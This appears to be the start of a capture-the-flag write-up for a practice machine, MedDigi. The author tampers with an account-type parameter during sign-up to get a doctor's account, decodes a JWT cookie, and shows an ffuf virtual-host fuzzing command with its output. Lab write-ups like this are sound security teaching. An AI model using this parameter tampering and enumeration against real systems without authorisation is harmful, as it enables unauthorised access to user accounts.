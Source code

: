 
Using burpe to intercept the request when creating an account, change the account type from 1 to 2 which gives me a doctor's account.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Acctype=2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We get an access_token cookie which looks like a jwt token

access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjgiLCJlbWFpbCI6ImRvY3RvckB3aG8uY29tIiwibmJmIjoxNjk4NTc4Njk2LCJleHAiOjE2OTg1ODIyOTYsImlhdCI6MTY5ODU3ODY5NiwiaXNzIjoiTWVkRGlnaSIsImF1ZCI6Ik1lZERpZ2lVc2VyIn0.f482mFiYLxXIOctRjncQ8WlE2Wz1v9L9QZwTjAWm0i0;

when decoded we get this payload, nothing useful.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{
  "unique_name": "8",
  "email": "doctor@who.com",
  "nbf": 1698578696,
  "exp": 1698582296,
  "iat": 1698578696,
  "iss": "MedDigi",
  "aud": "MedDigiUser"
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


fuzzing vhosts we found a portal subdomain

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u https://meddigi.htb -H 'Host: FUZZ.meddigi.htb' -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://meddigi.htb
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.meddigi.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

portal                  [Status: 200, Size: 2976, Words: 1219, Lines: 57, Duration: 325ms]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
